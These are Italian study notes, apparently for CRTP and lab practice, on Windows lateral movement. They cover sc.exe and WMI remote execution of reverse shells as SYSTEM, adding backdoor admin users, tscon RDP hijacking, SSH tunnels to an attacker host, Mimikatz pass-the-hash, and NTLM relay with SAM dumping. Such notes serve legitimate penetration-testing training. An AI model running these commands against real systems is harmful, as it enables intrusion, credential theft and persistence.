


- [Lateral Movement](#lateral-movement)
  - [Service](#service)

# Lateral Movement

## Service
### Cosa fa SCM
SCM (services.exe) è il processo Windows che gestisce tutti i servizi — li avvia, li ferma, li registra nel registry. Espone un'interfaccia RPC raggiungibile remotamente sulla porta 445 (SMB). Se hai credenziali amministrative sulla macchina target, puoi parlare con il suo SCM da remoto.

### Il flusso dell'attacco
- Step 1 — hai le credenziali di un local admin su TARGET (magari le hai rubate con Mimikatz o hai fatto PTH).
- Step 2 — carichi il tuo eseguibile malevolo su TARGET. Devi prima copiarlo da qualche parte accessibile:
    ```
    # Copi la reverse shell su TARGET via SMB
    copy reverse_shell.exe \\TARGET\C$\Windows\Temp\malicious.exe
    ```
- Step 3 — crei il servizio su TARGET tramite SCM remoto:
    ```
    sc.exe \\TARGET create malicious_service binPath= "C:\Windows\Temp\malicious.exe" start= auto
    ```
    Questo scrive una chiave nel registry di TARGET sotto:
    ```
    HKLM\SYSTEM\CurrentControlSet\Services\malicious_service
    ```
- Step 4 — avvii il servizio:
    ```
    sc.exe \\TARGET start malicious_service
    ```
SCM avvia il binario come SYSTEM — il livello di privilegio più alto sulla macchina. La tua reverse shell si connette al tuo listener.

### Perché gira come SYSTEM
Per default SCM avvia i nuovi servizi nel contesto di LOCAL ```SYSTEM``` a meno che non specifichi diversamente con il parametro ```obj=```. Questo è un vantaggio enorme — non ottieni solo accesso alla macchina, ottieni direttamente SYSTEM.
```
# Senza specificare obj= → gira come SYSTEM (default)
sc.exe \\TARGET create malicious_service binPath= "C:\Windows\Temp\malicious.exe"

# Se volessi farlo girare come un utente specifico
sc.exe \\TARGET create malicious_service binPath= "C:\Windows\Temp\malicious.exe" obj= "corp\mario" password= "Password123!"
```

### Cosa serve perché funzioni
Devi avere accesso SMB sulla porta 445 di TARGET e credenziali amministrative. Puoi usare sia credenziali in chiaro che PTH:
```
# Con credenziali in chiaro — impersoni l'utente prima
runas /user:corp\administrator cmd

# Con PTH — inietti l'hash e poi usi sc.exe normalmente
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:<hash> /run:cmd.exe"'
# Nella nuova finestra cmd usi sc.exe normalmente
sc.exe \\TARGET create malicious_service binPath= "C:\Windows\Temp\malicious.exe"
```

### Pulizia dopo l'attacco
Nei pentest reali e nella CRTP è importante fare pulizia per non lasciare tracce:
```
# Fermi il servizio
sc.exe \\TARGET stop malicious_service

# Elimini il servizio dal registry
sc.exe \\TARGET delete malicious_service

# Elimini il binario
del \\TARGET\C$\Windows\Temp\malicious.exe
```

### Perché è rumoroso
Creare un servizio genera diversi eventi nel Windows Event Log di TARGET:
```
Event ID 7045  →  nuovo servizio installato
Event ID 7036  →  servizio avviato/fermato
Event ID 4697  →  servizio installato (Security log)
```
Qualsiasi SOC con un SIEM decente vede immediatamente un nuovo servizio creato su una macchina. Per questo nelle operazioni reali si preferiscono tecniche più silenziose come WMI, PSRemoting, o scheduled tasks — ma nella CRTP è un metodo valido per muoversi lateralmente rapidamente.


### runas /user:corp\administrator cmd
Apre un nuovo terminale cmd sul tuo PC corrente, ma nel contesto di sicurezza di ```corp\administrator```. Da quel terminale quando usi ```sc.exe \\TARGET``` il tuo PC si autentica a ```TARGET``` usando le credenziali di ```corp\administrator``` che hai inserito.
```
il tuo PC → si autentica a TARGET come corp\administrator → SCM di TARGET accetta
```

### sekurlsa::pth — quale hash inietti
Inietti l'hash dell'utente che è amministratore su TARGET — che può essere:
- un domain admin — è amministratore su tutte le macchine del dominio per default:
    ```
    # Hash di un DA → funziona su qualsiasi macchina del dominio
    Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:<hash-DA>"'
    ```
- un local admin di TARGET — funziona solo su quella macchina specifica:
    ```
    # Hash del local Administrator di TARGET → funziona solo su TARGET
    Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:TARGET /ntlm:<hash-local-admin-TARGET>"'
    ```
- un utente di dominio che è local admin su TARGET — magari l'hai scoperto con Find-LocalAdminAccess:
    ```
    # Hash di svc-web che è local admin su TARGET
    Invoke-Mimikatz -Command '"sekurlsa::pth /user:svc-web /domain:corp.local /ntlm:<hash-svc-web>"'
    ```
##### La cosa importante
In entrambi i casi — runas e pth — stai aprendo un terminale sul tuo PC corrente con un'identità diversa. Non sei ancora su TARGET. Usi quel terminale per parlare remotamente con TARGET tramite sc.exe, SMB, WMI, ecc.
```
Il tuo PC (identità = corp\administrator)
        ↓
sc.exe \\TARGET ...
        ↓
TARGET riceve la richiesta → verifica che corp\administrator sia admin → esegue
```

## Windows Management Implementation (WMI)
WMI è un framework di gestione di Windows che permette di interagire con quasi ogni aspetto del sistema operativo — processi, servizi, registry, hardware, rete — sia localmente che remotamente. È fondamentalmente un'API per amministrare Windows.

### La sessione CIM
Prima di fare qualsiasi cosa crei una sessione verso TARGET:
```
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-CimSession -ComputerName TARGET -Credential $credential -SessionOption $Opt
```

- ```CimSession``` è la connessione persistente verso TARGET — la riusi per tutti i comandi successivi senza dover reinserire le credenziali ogni volta. È come aprire una sessione SSH prima di eseguire comandi.
- I due protocolli disponibili sono DCOM (porte 135 + range alto) — il protocollo WMI classico, più compatibile con sistemi vecchi, e WSMan (porta 5985/5986) — più moderno, è lo stesso protocollo di PowerShell Remoting.

### Metodologia 1 — Service via WMI
```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
    Name = "THMService2";
    DisplayName = "THMService2";
    PathName = "net user munra2 Pass123 /add";
    ServiceType = [byte]::Parse("16");
    StartMode = "Manual"
}
```
- ```Win32_Service``` è la classe WMI che rappresenta i servizi Windows. Invece di usare sc.exe come prima, stai chiamando direttamente il metodo Create della classe WMI — il risultato è identico ma il vettore è diverso.
- ```PathName``` è il comando che verrà eseguito — in questo esempio crea un utente locale, ma può essere qualsiasi cosa inclusa una reverse shell.
- ```ServiceType = 16``` significa ```Win32OwnProcess``` — il servizio gira in un processo separato invece di condividere un processo con altri servizi.

Poi prendi l'handle al servizio creato e lo avvii:
```
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
```

### Metodologia 2 — Scheduled Task
```
$Command = "cmd.exe"
$Args = "/c net user 0xd4y PleaseSubscribe /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "MyTask"
Start-ScheduledTask -CimSession $Session -TaskName "MyTask"
```

- Invece di creare un servizio, crei un task pianificato su TARGET che viene eseguito come ```NT AUTHORITY\SYSTEM```. Il vantaggio rispetto al servizio è che i task pianificati sono meno monitorati in alcuni ambienti, e puoi specificare trigger temporali — "esegui ogni giorno alle 3:00" per persistenza.
- Il payload deve essere diviso in comando e argomenti — ```cmd.exe``` separato da ```/c net user ...``` — perché ```ScheduledTaskAction``` vuole i due campi separati.
- Quando registri un task senza specificare un trigger, il task esiste ma non si avvia automaticamente mai. L'unico modo per farlo partire è avviarlo manualmente — ed è esattamente quello che fa ```Start-ScheduledTask``` alla fine.

#### Quando useresti un trigger invece
```
# Esegui ogni volta che il sistema si avvia
$Trigger = New-ScheduledTaskTrigger -AtStartup

# Esegui ogni giorno alle 3:00
$Trigger = New-ScheduledTaskTrigger -Daily -At 3am

# Esegui quando un utente specifico fa login
$Trigger = New-ScheduledTaskTrigger -AtLogOn -User "corp\administrator"

# Esegui tra 5 minuti
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).AddMinutes(5)

# Registri il task con il trigger
Register-ScheduledTask -CimSession $Session -Action $Action -Trigger $Trigger -User "NT AUTHORITY\SYSTEM" -TaskName "MyTask"
```

### Metodologia 3 — MSI Package
```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{
    PackageLocation = "C:\Windows\myinstaller.msi"
    Options = ""
    AllUsers = $false
}
```
Prima copi un MSI malevolo su TARGET:
```
copy malicious.msi \\TARGET\C$\Windows\malicious.msi
```

Poi lo installi remotamente tramite WMI. Un MSI può eseguire comandi arbitrari durante l'installazione tramite Custom Actions — è un vettore meno comune ma utile perché l'installazione di software sembra attività legittima nei log.

### Perché WMI invece di sc.exe


- Il punto chiave è "outputs of commands are not seen by user" — WMI esegue i comandi in background sul sistema remoto senza mostrarti l'output. Se vuoi vedere i risultati devi usare altri metodi come salvare l'output su un file e poi leggerlo, oppure usare una reverse shell che ti manda l'output attivamente.

### Pulizia dopo l'attacco
```
# Rimuovi il servizio
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete

# Rimuovi il scheduled task
Unregister-ScheduledTask -CimSession $Session -TaskName "MyTask" -Confirm:$false

# Chiudi la sessione
Remove-CimSession $Session
```


## RDP Hijacking
RDP Hijacking sfrutta una funzionalità legittima di Windows — la possibilità di trasferire sessioni RDP tra utenti — per prendere il controllo di una sessione attiva di un altro utente senza conoscere la sua password.

### Il contesto
- Quando un utente si connette via RDP e chiude la finestra del client senza fare logout, la sessione rimane attiva sul server — con tutti i programmi aperti, il desktop, i file. Windows la mette in stato ```Disc``` (disconnected) ma non la termina.
- Se sei SYSTEM su quella macchina puoi ricollegarti a quella sessione come se fossi quell'utente — senza password.

### Il flusso pratico
Prima vedi le sessioni attive sulla macchina:
```
query user
```
```
 USERNAME        SESSIONNAME   ID  STATE    IDLE TIME  LOGON TIME
 administrator   console        1  Active   none       01/04/2026 09:00
 mario           rdp-tcp#2      2  Active   00:05      01/04/2026 10:00
 davide                         3  Disc     01:30      01/04/2026 08:00  ← sessione disconnessa
```
**davide** ha una sessione disconnessa — è loggato ma non connesso. Tutti i suoi programmi sono ancora aperti sul server.
Poi ti colleghi alla sua sessione (mettendo caso che sei Mario, devi usare la tua sessione):
```
cmdtscon 3 /dest:rdp-tcp#2
```

Questo dice a Windows "trasferisci la sessione 3 (davide) sulla connessione rdp-tcp#2 (la tua cioè Mario in questo caso)". La tua schermata RDP diventa il desktop di davide — con tutti i suoi programmi aperti, browser, file, tutto.


### Perché funziona senza password
- ```tscon``` è uno strumento legittimo di Windows pensato per gli amministratori di sistema per gestire le sessioni RDP. Il problema è che quando gira come SYSTEM, Windows non richiede nessuna autenticazione aggiuntiva — SYSTEM è al di sopra di qualsiasi controllo di accesso normale.
- Su Windows Server 2016 puoi usare ```tscon``` direttamente come SYSTEM senza password. Su Windows Server 2019 Microsoft ha aggiunto un controllo aggiuntivo che richiede la password dell'utente target anche da SYSTEM.


### Come arrivi a SYSTEM per eseguire tscon
Se sei local admin puoi elevarti a SYSTEM in vari modi:
```
# Con PsExec
PsExec.exe -s cmd.exe

# Con un servizio temporaneo
sc.exe create getsystem binPath= "cmd.exe /c tscon 3 /dest:rdp-tcp#2" start= auto
sc.exe start getsystem

# Con task scheduler
schtasks /create /tn "hijack" /tr "tscon 3 /dest:rdp-tcp#2" /sc once /st 00:00 /ru SYSTEM
schtasks /run /tn "hijack"
```
### Se non hai una sessione RDP attiva
Se sei su una shell non-RDP (reverse shell, PSRemoting, ecc.) e vuoi comunque fare hijacking, usi il metodo del servizio temporaneo che girava come SYSTEM:
```
sc.exe create hijack binPath= "cmd.exe /c tscon 3 /dest:rdp-tcp#2" start= auto
sc.exe start hijack
```

### Perché è interessante offensivamente
- Non lascia quasi nessuna traccia di autenticazione — non viene generato nessun evento di login perché non stai facendo un nuovo login, stai solo trasferendo una sessione esistente. Nei log appare come una normale riconnessione di sessione.
- Inoltre hai accesso completo al contesto dell'utente — se davide era loggato su applicazioni interne, VPN, client email, tutto è già aperto e autenticato. Non hai bisogno delle sue credenziali per niente di quello che era già aperto.

### Perché serve SYSTEM sulla macchina TARGET
```tscon``` può essere eseguito da chiunque, ma il trasferimento di una sessione appartenente a un altro utente richiede il privilegio ```SeImpersonatePrivilege``` al massimo livello — che in pratica significa SYSTEM. Se provi a fare ```tscon 3``` come mario, Windows controlla che la sessione 3 appartenga a mario — se appartiene a davide, rifiuta.
```
# Come mario (non funziona)
tscon 3 /dest:rdp-tcp#4
# Errore: Access Denied

# Come SYSTEM (funziona)
tscon 3 /dest:rdp-tcp#4
# OK — desktop di davide appare
```

#### Il percorso tipico
```
accesso iniziale (utente normale)
        ↓
local privilege escalation
        ↓
local admin
        ↓
elevarsi a SYSTEM (PsExec -s, servizio, task scheduler)
        ↓
tscon → hijack sessione
```

#### Puoi farlo anche come local admin indirettamente
Non devi necessariamente avere una shell SYSTEM interattiva. Puoi usare un servizio o task che gira come SYSTEM per eseguire tscon per te:
```
# Sei local admin, crei un servizio che gira come SYSTEM
sc.exe create hijack binPath= "cmd.exe /c tscon 3 /dest:rdp-tcp#4"
sc.exe start hijack
# Il servizio gira come SYSTEM → tscon funziona
```
Tecnicamente sei ancora local admin — ma stai delegando l'esecuzione di tscon a un processo SYSTEM.


## Remote Port Forwarding
Il Remote Port Forwarding serve per rendere raggiungibile un servizio interno della rete target dalla tua macchina attaccante — anche se quel servizio non è esposto su internet.

### Il problema che risolve
Sei dentro la rete target con una shell su una macchina compromessa. Vuoi connetterti via RDP a un'altra macchina interna (```RDP_MACHINE```) che non è raggiungibile dall'esterno — è dietro un firewall. Dal tuo PC non puoi raggiungerla direttamente, ma la macchina compromessa sì perché è sulla stessa rete interna.
```
tuo PC → [firewall] → macchina compromessa → RDP_MACHINE
tuo PC → [firewall] ✗ RDP_MACHINE (non raggiungibile direttamente)
```
Il port forwarding crea un tunnel SSH che porta il traffico RDP dalla tua macchina fino a RDP_MACHINE passando attraverso la macchina compromessa.


### Step 1 — crei un utente senza shell sulla tua macchina attaccante
```
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```
```-s /bin/true``` è il dettaglio importante — invece di assegnare una shell normale come ```/bin/bash```, assegni ```/bin/true``` che non fa nulla e termina immediatamente. Questo significa che ```tunneluser``` può autenticarsi via SSH per creare tunnel, ma non può aprire una shell interattiva sulla tua macchina. È un utente limitato solo al tunneling — principio del least privilege.

### Step 2 — dalla macchina compromessa crei il tunnel
```
ssh tunneluser@<ATTACKER_IP> -R 3389:<RDP_MACHINE>:3389 -N
```
Pezzo per pezzo:
- ```tunneluser@<ATTACKER_IP>``` — ti connetti alla tua macchina attaccante come tunneluser.
- ```-R 3389:<RDP_MACHINE>:3389``` — questo è il cuore del comando. ```-R``` significa Remote forwarding — apri la porta 3389 sulla tua macchina attaccante e tutto il traffico che arriva lì viene inoltrato a ```RDP_MACHINE:3389``` attraverso il tunnel SSH.
- ```-N``` — non eseguire nessun comando remoto, mantieni solo il tunnel aperto.

### Il risultato
```
tuo PC → localhost:3389 → [tunnel SSH] → macchina compromessa → RDP_MACHINE:3389
```
Dalla tua macchina attaccante puoi connetterti a ```localhost:3389``` con un client RDP e arrivi direttamente sul desktop di RDP_MACHINE — come se fosse raggiungibile direttamente.
```
# Dalla tua macchina attaccante
xfreerdp /u:administrator /p:Password123 /v:localhost:3389
```

### Perché il tunnel parte dalla macchina compromessa verso di te
Il firewall blocca connessioni in entrata verso la rete interna — ma non blocca connessioni in uscita dalla rete interna verso internet. La macchina compromessa si connette a te (connessione in uscita, permessa), e attraverso quella connessione tu puoi raggiungere risorse interne.
```
IN ENTRATA  → [firewall] ✗  bloccato
IN USCITA   → [firewall] ✓  permesso

macchina compromessa → connessione SSH in uscita verso tuo PC → tunnel creato
tuo PC usa il tunnel per raggiungere RDP_MACHINE → traffico va in uscita dalla rete interna
```

### Varianti utili
```
# Forwarding di più porte contemporaneamente
ssh tunneluser@<ATTACKER_IP> -R 3389:<RDP_MACHINE>:3389 -R 445:<FILE_SRV>:445 -N

# Porta diversa sulla tua macchina (se 3389 è già occupata)
ssh tunneluser@<ATTACKER_IP> -R 13389:<RDP_MACHINE>:3389 -N
# poi ti connetti a localhost:13389

# Con chiave SSH invece di password (più stealth)
ssh tunneluser@<ATTACKER_IP> -R 3389:<RDP_MACHINE>:3389 -N -i id_rsa
```

### Esempio


#### Il scenario con IP specifici
Gli IP in gioco sono questi:

- ```5.5.5.5``` — il tuo PC attaccante, su internet
- ```192.168.1.50``` — la macchina che hai già compromesso, dentro la rete target
- ```192.168.1.100``` — RDP_MACHINE, il server a cui vuoi connetterti via RDP, non raggiungibile dall'esterno

#### Cosa succede step by step
- Il problema: dal tuo PC non puoi fare ```xfreerdp /v:192.168.1.100``` perché il firewall blocca le connessioni in entrata verso la rete interna.
- Step 1 — sulla macchina compromessa ```192.168.1.50``` esegui:
    ```
    ssh tunneluser@5.5.5.5 -R 3389:192.168.1.100:3389 -N
    ```
    Questo apre una connessione SSH in uscita verso il tuo PC — il firewall la lascia passare perché è traffico in uscita.
- Step 2 — SSH apre la porta 3389 sul tuo PC ```5.5.5.5``` e dice: "tutto quello che arriva qui, mandalo a ```192.168.1.100:3389``` passando per questo tunnel".
- Step 3 — dal tuo PC ti connetti a te stesso:
    ```
    xfreerdp /u:administrator /p:Password123 /v:localhost:3389
    ```
    Il traffico RDP parte dal tuo PC, entra nel tunnel SSH, arriva a ```192.168.1.50```, che lo inoltra a ```192.168.1.100:3389``` — e vedi il desktop di RDP_MACHINE.

#### La cosa elegante
Il firewall vede solo una connessione SSH in uscita da ```192.168.1.50``` verso ```5.5.5.5``` — traffico assolutamente normale. Non sa che dentro quella connessione SSH sta viaggiando traffico RDP verso un server interno.

## NTLM Relay
NTLM relay è un attacco dove intercetti un'autenticazione NTLM in transito e la riusi in tempo reale verso un altro target.
```
NTLM relay:
vittima → [tu nel mezzo] → target
           riusi la risposta NTLM in tempo reale

DCSync:
tu → DC (con TGT Kerberos rubato) → DC ti dà gli hash
```

## IP vs Hostname — perché cambia tutto
- Quando una macchina vuole autenticarsi a un'altra, Windows decide quale protocollo usare — Kerberos o NTLM — basandosi su come specifichi la destinazione.
- Se usi l'hostname (```\\fileserver.corp.local```) → Windows prova Kerberos per primo. Sa che ```fileserver.corp.local``` è un membro del dominio, quindi contatta il DC per ottenere un TGS. Il TGS è cifrato e non relayabile — NTLM relay non funziona.
- Se usi l'IP (```\\192.168.1.10```) → Windows non può usare Kerberos perché i ticket Kerberos sono legati a nomi di servizio (SPN), non a indirizzi IP. Fallback automatico su NTLM — che è relayabile.
```
\\fileserver.corp.local  →  Kerberos  →  non relayabile
\\192.168.1.10           →  NTLM      →  relayabile
```

## Il setup dell'attacco
Hai bisogno di due tool che girano contemporaneamente sulla tua macchina attaccante:
- Responder — avvelena la rete per far sì che le vittime si connettano a te invece che al server legittimo. Risponde a broadcast NBT-NS e LLMNR dicendo "sono io quella risorsa che cerchi".
- ntlmrelayx — riceve l'autenticazione NTLM che arriva da Responder e la redirige in tempo reale verso il target.

```
# Terminale 1 — Responder intercetta le autenticazioni
# -I = interfaccia di rete
# --no-smb-server = non avviare il server SMB (lo fa ntlmrelayx)
responder -I eth0 --no-smb-server

# Terminale 2 — ntlmrelayx redirige verso il target
python3 ntlmrelayx.py -smb2support -t smb://192.168.1.10 -debug
```

Il flusso completo
```
1. Mario cerca \\fileserver (typo o risorsa inesistente)
2. Windows fa broadcast NBT-NS: "chi è fileserver?"
3. Responder risponde: "sono io!" → Mario si connette a te
4. Mario manda challenge/response NTLM verso di te
5. ntlmrelayx prende quella risposta e la manda a 192.168.1.10
6. 192.168.1.10 verifica → valida → ntlmrelayx è autenticato come Mario
7. ntlmrelayx esegue comandi su 192.168.1.10 come Mario
```

## Cosa puoi fare una volta relayato
```
# Default — dumpa SAM del target se Mario è local admin
python3 ntlmrelayx.py -smb2support -t smb://192.168.1.10

# Output:
# [*] Authenticating against smb://192.168.1.10 as CORP/mario
# [*] Dumping local SAM hashes
# Administrator:500:aad3b435...:8846f7ea...
# Guest:501:aad3b435...:31d6cfe0...

# Esegui un comando specifico sul target
python3 ntlmrelayx.py -smb2support -t smb://192.168.1.10 -c "net user hacker Pass123! /add && net localgroup administrators hacker /add"

# Relay verso LDAP invece di SMB — utile per creare account AD o modificare ACL
python3 ntlmrelayx.py -t ldap://192.168.1.1 --escalate-user mario

# Relay verso più target contemporaneamente
python3 ntlmrelayx.py -smb2support -tf targets.txt
# targets.txt contiene una lista di IP
```

## La condizione necessaria — Mario deve essere admin sul target
Il relay funziona sempre — puoi sempre autenticarti come Mario verso il target. Ma cosa puoi fare dipende dai privilegi di Mario su quel target:
```
Mario è local admin su 192.168.1.10  →  dumpi SAM, esegui comandi, shell
Mario è utente normale su 192.168.1.10  →  autenticazione ok ma accesso limitato
```

## Come forzare l'autenticazione invece di aspettare
Aspettare che qualcuno faccia un typo è lento. Puoi forzare l'autenticazione in vari modi:
```
# Printer Bug — forza il target ad autenticarsi a te
SpoolSample.exe 192.168.1.10 192.168.1.attaccante

# File con UNC path malevolo — se qualcuno apre questo file si autentica a te
# Crei un file .lnk, .docx, .pdf con un path tipo \\192.168.1.attaccante\share
# Quando viene aperto, Windows si autentica automaticamente

# Responder con analisi passiva prima
responder -I eth0 -A  # solo analisi, non avvelena ancora
```

## Perché SMB signing blocca il relay
SMB signing aggiunge una firma crittografica a ogni pacchetto SMB. Quando ntlmrelayx prova a relayare l'autenticazione di Mario verso il target, il target chiede che i pacchetti successivi siano firmati con la chiave di sessione — che ntlmrelayx non ha perché non conosce la password di Mario. Quindi la sessione viene rifiutata dopo l'autenticazione iniziale.
```
Senza SMB signing:
autenticazione relay → OK → sessione aperta → comandi eseguiti

Con SMB signing enforced:
autenticazione relay → OK → target chiede firma pacchetti → ntlmrelayx non può firmare → sessione chiusa
```
> Per questo nei pentest la prima cosa da verificare è quali macchine non hanno SMB signing enforced — sono quelle vulnerabili al relay.


## Esempio
